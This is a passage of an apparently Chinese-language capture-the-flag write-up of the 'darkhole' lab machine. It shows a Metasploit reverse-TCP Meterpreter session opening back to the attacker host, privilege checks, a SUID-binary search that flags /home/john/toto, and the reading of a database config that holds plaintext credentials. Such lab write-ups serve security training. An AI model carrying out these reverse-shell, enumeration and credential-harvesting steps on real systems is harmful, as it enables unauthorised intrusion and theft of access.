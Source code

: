     - 获得`shell`
        
        ```python
        [*] Started reverse TCP handler on 192.168.75.151:1234 
        [*] Sending stage (39927 bytes) to 192.168.75.184
        [*] Meterpreter session 1 opened (192.168.75.151:1234 -> 192.168.75.184:55480) at 2024-11-08 11:49:08 +0800
        
        meterpreter > 
        ```
        
        输入shell获得shell命令行
        
2. 查看权限
    
    ```python
    $ whoami
    www-data
    $ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    $ uname -a
    Linux darkhole 5.4.0-77-generic #86-Ubuntu SMP Thu Jun 17 02:35:03 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
    ```
    
3. 寻找利用点
    - SUID权限
        
        ```python
        $ find / -perm -u=s -type f 2>/dev/null
        /usr/lib/snapd/snap-confine
        /usr/lib/policykit-1/polkit-agent-helper-1
        /usr/lib/eject/dmcrypt-get-device
        /usr/lib/dbus-1.0/dbus-daemon-launch-helper
        /usr/lib/openssh/ssh-keysign
        /usr/bin/su
        /usr/bin/at
        /usr/bin/umount
        /usr/bin/pkexec
        /usr/bin/sudo
        /usr/bin/passwd
        /usr/bin/chfn
        /usr/bin/chsh
        /usr/bin/gpasswd
        /usr/bin/fusermount
        /usr/bin/newgrp
        /usr/bin/mount
        /home/john/toto
        ```
        
        `/home/john/toto` 这个一看就不对劲
        
    - 数据库配置文件
        
        ```python
        $ cat database.php
        <?php
        $connect = new mysqli("localhost",'john','john','darkhole');
        ```
        
